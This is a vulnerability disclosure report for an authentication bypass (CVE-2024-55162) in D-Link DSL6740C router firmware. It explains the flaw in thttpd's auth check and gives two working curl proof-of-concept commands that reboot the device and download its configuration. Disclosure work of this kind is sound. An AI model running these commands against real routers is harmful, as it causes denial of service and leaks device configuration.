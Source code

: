 # dlink DSL6740C authentication bypass

## firmware information

vendor: dlink

product: DSL6740C

firmware version: DSL6740C.V6.TR069.20211230

## description

Dlink DSL6740C has authentication bypass vulnerability,  unprivileged attackers can send remote packet to reboot the device or set factory mode of the device, causing potential Denial Of Service. The authentication bypass happens in binary `/sbin/thttpd`.



## Detail

The authentication part of the device is in function `alpha_auth_check`（at address: `0x40284C`）The function returns -1 if the user has not passed the authentication check, otherwise. However, attackers can bypass it by inserting `/graphics` into the `uri` field, forcing the function to return 1, which means the remote user has passed the check.

![image-20241127202405521](report/image-20241127202405521.png)

Then, attacker can reach `do_xgi` since `alpha_auth_check` return 1, not -1

![image-20241127202528416](report/image-20241127202528416.png)

In `do_xgi`, there are privileged functions, which schedule the reboot of the device, or turn the device back to factory mode.

![image-20241127203053072](report/image-20241127203053072.png)

![image-20241127202752218](report/image-20241127202752218.png)

## POC

### reboot

The following payload will reboot the device, assume the IP address of the device is `192.168.1.1`

```shell
curl -X GET "192.168.1.1/graphic/reboot.xgi?a=1"
```

### information leakage

And the following payload leak the config information of the device

```shell
curl -X GET "192.168.1.1/graphic/config.xgi?a=1" --output ./test.bin
```

The result is as follows, some content has been encrypted by the device.

![image-20241127210412134](report/image-20241127210412134.png)

## Timeline
[01/10/25] assigned CVE-2024-55162